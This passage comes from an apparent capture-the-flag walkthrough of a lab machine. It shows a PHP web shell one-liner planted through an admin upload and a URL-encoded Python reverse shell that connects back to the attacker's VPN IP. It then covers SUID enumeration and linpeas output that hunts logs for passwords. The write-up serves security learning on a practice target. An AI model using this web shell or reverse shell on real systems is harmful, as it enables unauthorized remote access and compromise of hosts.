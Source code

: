 `<?php system($_GET["cmd"]) ?>`

Then setup a netcat listener and go back to /admin as Henry and in the url we can type some command to get a reverse shell. I use the python reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
http://<REMOTE_MACHINE_IP>/admin/?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22<YOUR_VPN_IP>%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

Okay we got a shell :DD

## Enumerate the machine

Okay let's enumerate the machine.

First let's search for suid files and we can find an interesting file called /bin/authenticate, let's run it.

```
$ authenticate
You need to be a real user to be authenticated.
```

We're not a real user ouch, okay let's see the hint for the second flag.

```
Some people have only one password ...
```

Some people have only one password, we could check the sql because we have the user and password for it, but we changed the passwords and even if we don't, the password is pretty strong so it's hard to crack the hash.

Okay then, let's execute linpeas to see if we can find something.

Near the end of the output we can find something.

```
[+] Finding passwords inside logs (limit 70)
/var/log/bootstrap.log: base-passwd depends on libc6 (>= 2.8); however:
/var/log/bootstrap.log: base-passwd depends on libdebconfclient0 (>= 0.145); however:
/var/log/bootstrap.log:Preparing to unpack .../base-passwd_3.5.44_amd64.deb ...
/var/log/bootstrap.log:Preparing to unpack .../passwd_1%3a4.5-1ubuntu1_amd64.deb ...
/var/log/bootstrap.log:Selecting previously unselected package base-passwd.
/var/log/bootstrap.log:Selecting previously unselected package passwd.
/var/log/bootstrap.log:Setting up base-passwd (3.5.44) ...
/var/log/bootstrap.log:Setting up passwd (1:4.5-1ubuntu1) ...
/var/log/bootstrap.log:Shadow passwords are now on.
/var/log/bootstrap.log:Unpacking base-passwd (3.5.44) ...
/var/log/bootstrap.log:Unpacking base-passwd (3.5.44) over (3.5.44) ...
/var/log/bootstrap.log:Unpacking passwd (1:4.5-1ubuntu1) ...
/var/log/bootstrap.log:dpkg: base-passwd: dependency problems, but configuring anyway as you requested:
/var/log/cloud-init.log:2020-07-24 19:31:06,764 - ssh_util.py[DEBUG]: line 123: option PasswordAuthentication added with yes
/var/log/cloud-init.log:2020-07-24 19:31:06,876 - cc_set_passwords.py[DEBUG]: Restarted the SSH daemon.
/var/log/cloud-init.log:2020-07-24 19:49:49,330 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)
/var/log/cloud-init.log:2020-07-24 19:51:10,972 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)
/var/log/cloud-init.log:2020-07-24 22:49:14,090 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)
/var/log/cloud-init.log:2020-07-25 13:21:55,205 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)
/var/log/cloud-init.log:2020-07-27 20:45:26,821 - helpers.py[DEBUG]: config-set-passwords already ran (freq=once-per-instance)
```